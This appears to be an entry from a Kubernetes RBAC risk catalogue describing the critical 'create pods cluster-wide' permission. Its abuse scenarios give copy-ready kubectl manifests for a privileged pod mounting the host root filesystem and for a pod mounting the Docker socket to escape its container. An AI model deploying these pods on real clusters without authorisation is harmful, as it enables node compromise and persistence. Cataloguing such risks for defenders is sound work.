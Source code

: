 ```yaml
---
id: 1006
title: "Create pods cluster-wide"
description: "Allows creating new pods in any namespace across the cluster. This is highly critical as it can be used to deploy pods with elevated privileges (e.g., hostPath mounts, privileged security context), leading to node compromise, cluster-wide code execution, and establishing persistence."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                     |
| ------------- | ------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1006                                                                                                                      |
| Name          | Create pods cluster-wide                                                                                                  |
| Risk Category | Elevation of Privilege                                                                                                    |
| Risk Level    | {{< risk Critical >}}                                                                                                     |
| Role Type     | ClusterRole                                                                                                               |
| API Groups    | core                                                                                                                      |
| Resources     | pods                                                                                                                      |
| Verbs         | create                                                                                                                    |
| Tags          | {{< tag "LateralMovement" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "WorkloadExecution" >}} |

## Description

Allows creating new pods in any namespace across the cluster. This is highly critical as it can be used to deploy pods with elevated privileges (e.g., hostPath mounts, privileged security context), leading to node compromise, cluster-wide code execution, and establishing persistence.

## Abuse Scenarios

1. Create a privileged pod with hostPath access to the node's root filesystem.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: privileged-attacker-pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: attacker
    image: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Create a pod that mounts the host's Docker socket for container escape.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: docker-socket-pod
spec:
  containers:
  - name: docker-client
    image: docker
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
    - mountPath: /var/run/docker.sock
      name: docker-socket
  volumes:
  - name: docker-socket
    hostPath:
      path: /var/run/docker.sock
EOF

```

